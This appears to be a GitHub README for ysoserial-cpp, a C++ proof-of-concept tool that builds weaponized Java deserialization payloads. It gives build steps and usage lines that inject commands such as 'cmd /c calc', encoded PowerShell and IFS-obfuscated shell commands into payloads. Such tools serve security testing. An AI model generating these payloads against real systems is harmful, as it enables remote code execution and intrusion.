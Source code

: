 ```
                                                         ▄█    ▄████████ ███▄▄▄▄   ███▄▄▄▄   ▄██   ▄    ▄█          ▄████████ ▀█████████▄  
                                                        ███   ███    ███ ███▀▀▀██▄ ███▀▀▀██▄ ███   ██▄ ███         ███    ███   ███    ███ 
                                                        ███   ███    █▀  ███   ███ ███   ███ ███▄▄▄███ ███         ███    ███   ███    ███ 
                                                        ███  ▄███▄▄▄     ███   ███ ███   ███ ▀▀▀▀▀▀███ ███         ███    ███  ▄███▄▄▄██▀  
                                                        ███ ▀▀███▀▀▀     ███   ███ ███   ███ ▄██   ███ ███       ▀███████████ ▀▀███▀▀▀██▄  
                                                        ███   ███    █▄  ███   ███ ███   ███ ███   ███ ███         ███    ███   ███    ██▄ 
                                                        ███   ███    ███ ███   ███ ███   ███ ███   ███ ███▌    ▄   ███    ███   ███    ███ 
                                                    █▄ ▄███   ██████████  ▀█   █▀   ▀█   █▀   ▀█████▀  █████▄▄██   ███    █▀  ▄█████████▀  
                                                    ▀▀▀▀▀▀                                             ▀                                   
```



# ysoserial-cpp


![image](https://github.com/user-attachments/assets/da6827fc-b24f-4b6d-8faa-fc99d5a233e5)




## ysoserial-cpp ( PoC )
Implementation of object serializations an weaponizing in cpp similar functionalitity ( a lost day... than yoserial )

GNU GPL3 License ( JennyLab OpenSource )
    

### Build

```
g++ -std=c++17 -O2 -o ysoserial-cpp ysoserial.cpp
```
or

```
mkdir build
cd build
cmake ..
make
```

or

```
make
```


### Payload inject execution commands abusing serialization

```
./ysoserial-cpp templates "cmd /c calc"
```

### Encoding

```
./ysoserial-cpp object1 "powershell -enc <base64_command>"
```
        
### Obfucation 

```
./ysoserial-cpp object2 "p\${IFS}ing\${IFS}8.8.8.8"
```
        
### Inyecting ENV

```
./ysoserial-cpp templates "\$SHELL -c 'whoami'"
```




## Code "ysoserial-cpp.cpp"
```
  ysoserial.cpp   # ysoserial-cpp
  ├── JavaSerialization   # Constants and types
  ├── JavaPayloadGen # Main class to make and object in C++ to serialize this serialization with provide and destination in seralize... Seria... Lize!!!
```                                                           




